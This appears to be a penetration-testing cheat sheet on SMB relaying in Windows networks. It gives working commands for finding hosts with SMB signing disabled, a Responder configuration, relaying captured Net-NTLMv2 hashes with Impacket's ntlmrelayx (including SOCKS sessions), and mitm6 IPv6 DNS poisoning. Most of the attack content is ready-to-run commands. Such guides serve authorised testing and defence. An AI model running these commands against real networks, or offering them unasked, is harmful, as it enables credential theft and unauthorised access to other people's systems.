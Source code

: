 # SMB Relaying

### Description

After observing LLMNR and/or NBT-NS traffic with Responder and forcing the client to authenticate to your machine, it is possible for the attacker to relay the Net-NTLMv2 hash obtained to all systems within scope that have SMB Signing Disabled.&#x20;

### Identifying Systems with SMB Signing Disabled

#### RunFinger.py

Finger is included with Responder.py in the `/tools` directory. Simply run the tool against either a subnet or file and parse the results using `cut`

```bash
python3 RunFinger.py -i $subnet
```

#### CrackMapExec

A list can also easily be created with [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec):

```bash
crackmapexec smb $subnet --gen-relay-list 
```

#### Nmap

Nmap can also create a list of hosts that have SMB Signing Disabled:

```bash
nmap --script=smb-security-mode -p445 $ip
```

### SMB Relaying 101

After confirming LLMNR/NBT-NS traffic and identifying systems with SMB Signing Disabled, we are ready to perform the attack. First, we need modify the `Responder.conf` file and disable both SMB and HTTP:

```python
# responder.conf

SQL = On
SMB = Off    
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On
LDAP = On
```

We can then run Responder:

```bash
responder -I eth0 -dwP
```

We can then run `ntlmrelayx.py` from Impacket, supplying our file of hosts previously identified to have SMB Signing Disabled.

```bash
python3 ntlmrelayx.py -tf smbdisabled.out --smb2-support
```

#### Relaying with SOCKS

We can also enable SOCKS support while relaying for interactive sessions. Using this flag will also provide you with a session on the host if the user is not a local administrator:

```bash
python3 ntlmrelayx.py -tf smbdisabled.out --smb2-support --socks
```

### Attacking IPv6

While a majority of companies do not utilize IPv6, little know that it is actually enabled by default. By using a tool such as mitm6, we can act as a malicious DNS server and redirect traffic to our attack host.&#x20;

The following command demonstrates basic usage of IPv6:

```bash
sudo mitm6 -d $domain
```

Additionally, the following command demonstrates running mitm6 with the `--ignore-nofqnd` flag which will ignore DHCPv6 queries that do not contain the Fully Qualfiied Domain Name:

```bash
sudo mitm6 -d $domain --ignore-nofqnd
```

#### Troubleshooting

If your testing machine was provisioned in ESXi, the following setting needs to be modified via the web console:

```bash
Networking -> VM Network -> Edit Settings -> Promiscuous Mode: Accept

# mitm6 can then be ran with the --no-ra flag.
```

### References

{% embed url="https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html" %}

{% embed url="https://luemmelsec.github.io/Relaying-101/#ntlm-downgrade-attack" %}

{% embed url="https://en.hackndo.com/ntlm-relay" %}

{% embed url="https://docs.microsoft.com/en-us/archive/blogs/josebda/the-basics-of-smb-signing-covering-both-smb1-and-smb2" %}

{% embed url="https://aas-s3curity.gitbook.io/cheatsheet/internalpentest/active-directory/exploitation/exploit-without-account/smb-relay" %}

{% embed url="https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6" %}

{% embed url="https://www.secureauth.com/blog/playing-with-relayed-credentials/" %}
